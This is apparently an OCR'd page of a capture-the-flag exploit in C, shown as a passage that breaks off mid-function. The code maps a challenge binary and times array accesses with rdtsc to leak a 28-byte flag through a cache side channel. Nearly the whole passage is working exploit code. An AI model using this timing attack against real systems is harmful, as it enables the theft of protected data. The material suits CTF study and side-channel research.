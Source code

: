 
## Exploit code 
---
```c
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <string.h>
#include <stdint.h>
#include <unistd.h>
#include <x86intrin.h>

#define PAGE_SIZE 512
#define FLAG_SIZE 28

// Might need to change this depending on your 'chall' binary
#define CHALL_FILE_SIZE 0x24ec8
// objdump -d ./chall -j .rodata | grep "the_array"
#define OFFSET_TO_THE_ARRAY 0x2020

const char *the_array;

static void *map_file(const char *file) {
    int fd = open(file, O_RDONLY, 0666);
        if (fd < 0){
        printf("Failed to open file");
        return NULL;
    }
    char *mem = mmap(NULL, CHALL_FILE_SIZE, PROT_READ, MAP_SHARED, fd, 0);
    if (mem == MAP_FAILED) { perror("mmap"); exit(-1); }
    return mem;
}

void access_value(char x) {
    /* Wrapper to prevent optimizations */
    (void)x;
}

/* Measure the access time to the_array[i * PAGE_SIZE]
 * for i in [0, 255] and return the value of i corresponding
 * to the shortest access time
 */
char get_min_access_time() {
    char best_candidate = 0;
    int min_time = 99999;
    for(int j = 0; j <= 255; j++) {
        // Access in 'random' order to prevent stride optimization
        // which can  distort the timing results
        int i = ((j * 167) + 13) & 0xff;
        //int i = j;

                int before, after;

        before = __rdtsc();
        access_value(the_array[i * PAGE_SIZE]);
        _mm_lfence(); // Makes sure 'after' is measured when 'access_value' is done
        after = __rdtsc();

        uint32_t diff = (uint32_t)(after-before);

        // For some reason the leak is less accurate without the following line
        fprintf(stderr, "Access time : %c : %d\n", i, diff);

```